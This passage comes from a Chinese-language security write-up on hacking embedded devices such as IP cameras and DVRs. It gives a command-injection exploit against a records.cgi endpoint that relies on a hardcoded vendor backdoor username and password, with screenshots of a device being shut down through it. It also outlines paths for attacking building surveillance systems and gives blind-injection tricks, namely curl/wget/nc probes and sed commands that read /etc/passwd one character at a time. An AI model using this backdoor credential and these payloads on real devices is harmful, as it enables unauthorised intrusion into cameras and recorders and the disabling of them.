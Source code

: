那么,问题就来了,上学老师就告诉过,sprintf要不得,一点过滤都没有而且这里还是用的system function  
(web狗表示这里能够搞定很开心~)

所以,我们可以利用官方那个后门访问records.cgi,构造payload来进行命令注入从而执行系统命令

```
curl -d "user=3sadmin&password=27988303" http://*.*.*.*/records.cgi?action=remove&storage=sd&filename=test`commands`

```

0x03 exploit
=====

![](http://drops.javaweb.org/uploads/images/f19e9ec94cf41e6b38d38de349c5f40a7a33f312.jpg)

执行poweroff后~

![](http://drops.javaweb.org/uploads/images/6f61d812377b190bd0bd4b857fde28cef0afbae3.jpg)

![](http://drops.javaweb.org/uploads/images/177f61720b28449d6643f6804145611055e7b4f1.jpg)

0x04 IPCAM&&videorecorders
=====

一直以来，hacking题材的电影都非常炫酷，黑客们入侵大楼在键盘上噼里啪啦，不多时就如入无人之境，分分钟黑下大楼的所有系统，其中，对监控摄像头的hacking描写也很多，这次我们就来“意淫”一下，入侵大楼时，hacking监控摄像(文中案例都是我编的，请勿对号入座)

一般大楼内都有许多摄像头，它们通常区分为网络摄像头和录像机，录像机是可以保存画面数据的，先来大致了解一下他们是如何工作的：

![image](http://drops.javaweb.org/uploads/images/1bff8398d35a182b4c9664976c08b9c5b0ebef3c.jpg)

![image](http://drops.javaweb.org/uploads/images/84aa5b82d9490faa05d3797ff913e1d931fe088a.jpg)

如上图，管理界面可以分屏查看当前在线的所有cam画面

从简易到拓扑我们可以看到，在整个系统中manage server用作管理下属cam，通常有web ui，管理还可通过自己的设备接入进行管理操作，管理的日志和数据存放在数据库中，说明是有数据查询交互的，DVR录像机的画面数据也会存放在server中，而ipcam则会实时传输，也就是说，我们hacking的入手点，可以放在DVR，IPCAM，manager的web方向

也就是说，我们可以通过：

`web ui(manager server) -->HTTP(apache。。。) -->OS(system)-->Hardware(DVR&&IPCAM)`OR

`Hardware(DVR&&IPCAM) -->OS(system)-->HTTP(apache。。。) -->web ui(manager server)`

一个是通过上层到底层，另一个则直接通过IPCAM或DVR的固件问题直接hacking

0x05 some tricks
=====

上一篇文章中我们通过执行payload时使用curl发包，用ping来检测命令是否注入，在embedded devices hacking中，还有一些小trick可以帮助我们

很多时候，厂商对原始设备进行了二次开发，所以有些命令你在其他设备work，在目标设备就不work，所以我们可以多采用几种命令进行测试，如curl，wget，nc

灵活使用linux命令进行字符串操作

```
$ if test `sed -n '/^root/{s/^\(.\{1\}\).*/\1/g;p}' /etc/passwd`;then echo 1;else echo 2;
fi 
1 
// 检测root，下面是一些更好的方式。 
$ if test `sed -n '/^r/{s/^\(.\{1\}\).*/\1/g;p}' /etc/passwd`;then echo 1;else echo 2;
fi 
1 
$ if test `sed -n '/^ro/{s/^\(.\{1\}\).*/\1/g;p}' /etc/passwd`;then echo 1;else echo 2;
fi
1 
$ if test `sed -n '/^roo/{s/^\(.\{1\}\).*/\1/g;p}' /etc/passwd`;then echo 1;else echo 2;
fi 
1 
$ if test `sed -n '/^root/{s/^\(.\{1\}\).*/\1/g;p}' /etc/passwd`;then echo 1;else echo 2;
```